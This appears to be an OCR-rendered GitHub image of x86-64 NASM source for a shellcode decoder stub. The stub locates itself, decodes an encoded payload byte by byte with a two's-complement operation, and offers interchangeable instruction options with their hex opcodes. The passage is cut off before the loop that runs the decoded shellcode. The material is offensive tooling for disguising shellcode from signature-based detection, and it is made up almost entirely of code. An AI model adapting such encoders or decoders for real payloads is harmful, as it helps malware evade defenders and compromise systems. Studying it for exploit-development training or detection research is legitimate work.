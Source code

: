 ```nasm
    ;mov ax, 528                 ; 
    ;add rbx, rax                ;
    ;fxsave64[rbx]               ; 25 bytes
    ;mov rsi, qword [rbx + 8]    ; 
    ;hex: \xd9\xe4\x54\x5b\x66\x83\xe3\xf0\x31\xc0\x66\xb8\x10\x02\x48\x01\xc3\x48\x0f\xae\x03\x48\x8b\x73\x08

    ;Option 2
    ;;;;;;;;;
    lea rsi, [rel _start]        ; use RIP relative address
                                 ; 7 bytes
    ;hex: \x48\x8d\x35\xf9\xff\xff\xff


;Don't comment the three following instructions.

    add rsi, 31             ; add the stub size to RSI (will be set automatically)
                            ; RSI point to the start of encoded shellcode

    push 23                 ; shellcode size (will be set automatically) 
    pop rcx                 ; loop counter initialized to shellcode size

decode:
; Two's complement instructions set :
; decode the encoded byte pointed by RSI
; using the two's complement instruction or equivalent

    ;Option 1
    ;;;;;;;;;
    neg byte [rsi]      ; 2 bytes
    ;hex: \xf6\x1e
    
    ;Option 2
    ;;;;;;;;;
    ;xor eax, eax        ; 2 bytes
    ;sub al, [rsi]       ; 2 bytes
    ;mov byte [rsi], al  ; 2 bytes
    ;hex: \x31\xc0\x2a\x06\x88\x06
    
    ;Option 3
    ;;;;;;;;;
    ;not byte [rsi]       ; 2 bytes
    ;inc byte [rsi]       ; 2 bytes
    ;hex: \xf6\x16\xfe\x06


; Increment rsi instructions set : 
; used to point to the next byte to decode

    ;Option 1
    ;;;;;;;;;
    inc rsi              ; 3 bytes
    ;hex: \x48\xff\xc6
    
    ;Option 2
    ;;;;;;;;;
    ;add rsi, 1           ; 4 bytes
    ;hex: \x48\x83\xc6\x01

; Loop instructions set : 
; Jump to decode if RCX != 0
; or exit the loop and exec decoded shellcode

```